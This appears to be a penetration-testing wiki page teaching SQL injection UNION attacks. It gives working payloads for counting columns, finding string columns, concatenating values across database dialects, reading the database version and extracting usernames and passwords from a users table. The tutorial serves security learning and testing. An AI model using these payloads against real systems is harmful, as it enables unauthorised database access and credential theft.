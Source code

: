 # UNION Attacks

## Theory

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in a SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example: 
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
  
This SQL query will return a single result set with two columns, containing values from columns **a** and **b** in **table1** and columns **c** and **d** in **table2**. 

## Practice

### Finding number of columns
We first need to know the number of columns in order to append data. When performing a SQL injection UNION attack, there are three effective methods to determine how many columns are being returned from the original query. 

{% tabs %}
{% tab title="MySQL" %}
Using `order by`
```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
  
Using `group by`
```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `UNION SELECT` 
This only works if error showing is enabled
```sql
' UNION SELECT NULL--            #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL--       #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL,NULL--  #No error means query uses 3 column
```
{% endtab %}
{% endtabs %}

### Finding the good column's data type
The reason for performing a SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data. 
{% tabs %}
{% tab title="MySQL" %}
After already determined number of columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT`. For example, if the query returns four columns, you would submit: 
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
{% endtab %}
{% endtabs %}

### String concatenation
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values.  
For example, on Oracle you could submit the input: `' UNION SELECT username || '~' || password FROM users--`

{% tabs %}
{% tab title="MySQL" %}
```sql
'foo' '~' 'bar' /*Note the space between the two strings*/
CONCAT('foo','~','bar')
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
'foo'+'~'+'bar' 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}
{% endtabs %}

### Unsing UNION attack
When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

For example we can retrieve the database version on MySQL:
```
' UNION SELECT @@version, NULL--
```

You can now use queries on this page, in combinaison with UNION injection to dump the database. 
{% page-ref page="../sql-injection/enum-databases.md" %}


## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}